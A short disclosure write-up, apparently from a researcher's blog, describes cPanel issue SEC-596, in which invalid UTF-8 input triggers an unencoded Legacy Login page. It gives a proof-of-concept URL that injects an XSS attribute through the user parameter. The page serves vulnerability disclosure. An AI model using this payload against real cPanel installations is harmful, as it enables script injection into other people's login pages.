 +++
author = "sh1yo"
title = "SEC-596"
date = "2021-11-29"
description = "Invalid UTF-8 characters could trigger cPanel to use the Legacy Login page. This page did not adequately encode output. This could allow for an attacker to inject arbitrary JavaScript code into the rendered page."
tags = [
    "xss",
    "cpanel"
]
+++

Invalid UTF-8 characters could trigger cPanel to use the Legacy Login page. This page did not adequately encode output. This could allow for an attacker to inject arbitrary JavaScript code into the rendered page.

## Links
[cpanel disclosure](https://forums.cpanel.net/threads/cpanel-tsr-2021-0005-full-disclosure.693853/)

### Proof of concept
`https://[target]:2083/login?user=sth%22+onfocus=%22alert()%22+id=%22xss%22+%22%ff#xss`

![request & response](/images/ddd9f288fac9092a27f9f9528db25f36afca15aa.png)

